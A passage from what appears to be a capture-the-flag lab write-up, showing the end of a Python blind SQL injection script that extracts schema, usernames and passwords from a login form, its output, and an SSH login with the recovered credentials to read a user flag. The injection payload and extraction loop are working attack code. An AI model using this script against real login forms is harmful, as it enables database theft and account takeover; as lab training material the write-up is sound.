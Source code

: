 ```python
				if send_payload({"username":f"{valid_username}' and ord(substr((select {column} from {database_table} {sql_filter} limit {str(value_row_index)},1),{str(char_index+1)},1))={str(char_ord)}-- -","password":"asd"}):
					value += chr(char_ord)
		values.append(value)
	return values

# To extract database names
# print(extract_values("schema_name", "information_schema.schemata"))
# ['information_schema', 'performance_schema', 'mywebsite', 'devsite']

# To extract table names for mywebsite database
# print(extract_values("table_name", "information_schema.tables", "where table_schema=\"mywebsite\""))
# ['siteusers']

# To extract columns for siteusers table on mywebsite database
# print(extract_values("column_name", "information_schema.columns", "where table_name=\"siteusers\" and table_schema=\"mywebsite\""))
# ['created_at', 'id', 'password', 'username']

# To extract usernames from siteusers table
print(extract_values("username", "mywebsite.siteusers", f"where username!=\"{valid_username}\""))
# To extract passwords from siteusers table
print(extract_values("password", "mywebsite.siteusers", f"where username!=\"{valid_username}\""))
```
{: file="sqli.py" }

> Be mindfull that this script will take some time to run. You can add a proxy to the requests made or add print debug staments to confirm it is working correctly.
{: .prompt-info }

Running the script, we get a username and a password.

```console
$ python3 sqli.py          
['kitty']
['<REDACTED>']

```
### Shell via ssh

Trying these credentials against the `SSH` service, they work. We get a shell as `kitty` user and can read the user flag.

```console
$ ssh kitty@10.10.80.186 
kitty@10.10.80.186's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-139-generic x86_64)
...
Last login: Tue Nov  8 01:59:23 2022 from 10.0.2.26
kitty@kitty:~$ wc -c user.txt
38 user.txt
```
